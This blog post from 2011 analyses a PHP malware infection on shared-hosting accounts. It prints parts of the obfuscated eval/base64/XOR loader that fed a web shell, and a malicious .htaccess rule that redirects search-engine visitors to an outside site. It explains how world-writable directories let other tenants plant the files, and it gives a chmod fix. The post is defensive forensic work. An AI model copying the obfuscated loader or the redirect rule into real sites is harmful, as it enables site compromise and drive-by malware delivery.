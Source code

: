 ```yaml
---
title: Shared-hosting accounts victims of lame directory permissions
author: Jan Seidl
type: post
date: 2011-12-14T17:40:00+00:00
url: /posts/shared-hosting-accounts-victims-of-lame-directory-permissions/
categories:
  - Access Control
  - Malware
tags:
  - access control
  - attack
  - directory permissions
  - malware
  - php
  - shared hosting
  - wordpress

---
```

From a few months some clients started to complain about their shared-hosting accounts being amazingly owned even if their <acronym title="Pre-Hypertext Processing">PHP</acronym> applications (WordPress mostly) were totally up to date.

The malware got into most of the <acronym title="Pre-Hypertext Processing">PHP</acronym> files including a <acronym title="Pre-Hypertext Processing">PHP</acronym> snippet that would `eval` and decode a base64-encoded string containing a `script` declaration loading Javascript from outside. This Javascript usually initiates download of .exe&#8217;s and stuff.

A friend&#8217;s account got hacked a few days back by this very same technique. He told me the attacker had left some files over so I asked him to hand me over so I could play a little and reverse-it.

## Reversing

The code ended up being two times rendering 3 total &#8216;stages&#8217;.

### Stage 1

Starts with two vars with random names containing hex-encoded strings that ended up being &#8216;create\_function&#8217; and &#8216;base64\_decode&#8217;, two regular <acronym title="Pre-Hypertext Processing">PHP</acronym> functions.

{{< highlight php >}}
/* Vars */
	$_8b7b="\x63\x72\x65\x61\x74\x65\x5f\x66\x75\x6e\x63\x74\x69\x6f\x6e"; // create_function
	$_8b7b1f="\x62\x61\x73\x65\x36\x34\x5f\x64\x65\x63\x6f\x64\x65"; // base64_decode
{{< /highlight >}}

Followed by that we have these vars called as functions

{{< highlight php >}}
$_8b7b1f56=$_8b7b("",$_8b7b1f("JGs9MT...."));
// $var=create_function("",base64decode("....
{{< /highlight >}}

And it ends calling this assigned variable as a function&#8230;

{{< highlight php >}}
$_8b7b1f56();
// $var();
{{< /highlight >}}

The base64-encoded code is presented next at

### Stage 2

What was base64-encoded is now a function that decodes content from another variable creating a payload string. The very first two variables are the most interesting because they are the &#8220;key&#8221; used to encode the payload, and the encoded payload. 

{{< highlight php >}}
$k=143;
	$m=explode(";","234;253;253;224;253;208;253;234;255;224;253;251;230;225;232;167;202;208;202;221;221;192;221;175;243;175;202;208;216;206;221;193;198.....");
{{< /highlight >}}

All the characters of the payload string are presented as numbers that when put to the power of &#8220;key&#8221; will become the corresponding ascii character of the payload.

A very simple for loop makes the math and appends the string.

{{< highlight php >}}
$z="";

	foreach ($m as $v) 
		if ($v!="")
			$z.=chr($v^$k);

	eval($z);
{{< /highlight >}}

### Stage 3

Well, what can I say, the decoded and `eval`uated string is a very simple <acronym title="Pre-Hypertext Processing">PHP</acronym> shell. It can run unix commands from a variety of techniques (popen, exec, system, passthru &#8212; the first available), can upload files, run php commands or connect to database hosts and run sql queries from the victim account.

## Artifacts missing

The script actually used for the infection of the <acronym title="Pre-Hypertext Processing">PHP</acronym> file is missing. Unfortunately as it is a shared-hosting I can&#8217;t reverse the disk for deleted items but it&#8217;s not something very simple. What I deduce is a simple `find` looking for <acronym title="Pre-Hypertext Processing">PHP</acronym> files and then piping them to a custom-built parser that would add the evil line at the end or after some specific code.

I&#8217;ve seen variants that only infected WordPress&#8217; footer.php template file (as it is included in every other page). This revealed to be a true application-targeted attack.

## If there are no holes in the app, how the hell did he got here?

After some manual auditing on the client&#8217;s application I&#8217;ve stated that the compromise couldn&#8217;t be started by the application so I started probing the environment.

Nothing seemed really bad at first but then, when talking to a friend I&#8217;ve noticed the most primary mistake: Directory permissions. So I present you&#8230;

## The attack vector

Some WordPress plugin developers make their plugins `chmod` upload directories world writable (`chmod 777`) to avoid problems. This is quite stupid but you might not know that most security-unaware developers do this quite often while having permissions issues.

We ran a quick `find` to see which directories where with write bit set on &#8216;other&#8217;.

{{< highlight php >}}
find . -type d -perm -o=w
{{< /highlight >}}

Then, as expected, we got some entries&#8230;

Just having an account on the same machine is enough. The attacker simply copied the files over our writable directory and accessed via his browser.

As a hosting account with <acronym title="Secure Shell">SSH</acronym> access enabled is around 10 bucks/month, this is a really victim-untargeted, cost-effective attack.

## Enumerating Victims

After we discovered the vector I jumped to my account and tried to `ls /home` but I was, as expected, denied.

So I though for a while and realized that `/etc/passwd` is readable. A little `for` function with some `cut` and the find above I was able to scratch down nearly 15.000 (YES, FIFTEEN THOUSAND!!!) world writable folders on this client shared-hosting machine.

Just stopped there because I&#8217;m on the light side ;)

## Some nasty artifacts

The infection also affects `.htaccess` files. Even if you haven&#8217;t one, if you got owned this way, you probably have one now for each site you&#8217;ve hosted.

Google started to mark some sites as attack sites. The pointed out offending url is _http://sweepstakesandcontestsinfo.com/nl-in.php?nnn=555_. So I started `grepping` like there&#8217;s no tomorow. In instants my `less` become populated by some good eggs.

`grep` was pointing to many `.htaccess` files with strange `RewriteRule`s statements. Then I opened the first one and there it was:

{{< highlight apache >}}
&lt;IfModule mod_rewrite.c>
RewriteEngine On
RewriteOptions inherit
RewriteCond %{HTTP_REFERER}
.*(msn|live|altavista|excite|ask|aol|google|mail|bing|yahoo).*$ [NC]
RewriteRule .* http://sweepstakesandcontestsinfo.com/nl-in.php?nnn=555 [R,L]
&lt;/IfModule>
{{< /highlight >}}

Apparently this malicious snippet is trying to hide itself from the site owner and direct hits, focusing only on hits arrived through search engines like Google, Bing, Yahoo! etc.

What the malware author missed and stood out like a shoot in the foot was that GoogleBot also got into that rule and started pointing out and alerting out users.

Just `grep` all your files for the <acronym title="Uniform Resource Locator">URL</acronym> mentioned on the report, or access your site from a search engine and see if it acts weird. 

## Fixing

The instant-fix is just runing an extended version of the above command.

{{< highlight bash >}}
find . -type d -perm -o=w -print -exec chmod 755 {} \;
{{< /highlight >}}

The main reason this happens and have so many occurrences is that application developers often fail to properly configure the user account of the running application and the application&#8217;s filesystem folders so the application can only write to public directories or its user&#8217;s home (which the application is not located there).

Give the application&#8217;s folder owner and group permissions according to the application&#8217;s user and group, then give the application&#8217;s group to the accounts that need to rights to write on it (ex: developers, deploy daemons etc). Then, set up the permissions of the folders accordingly.

## It could be worse

If the whole home directory is 777 (if this wasn&#8217;t bad enough by itself) (and we found some home directories like that on our probe) the attacker could put his key under `~/.authorized_keys` and gain direct shell access to the account. And then it could be even worse&#8230;

I strongly recommend everyone that has a shared-hosting account to do this little test. It may save your life.

HTH!

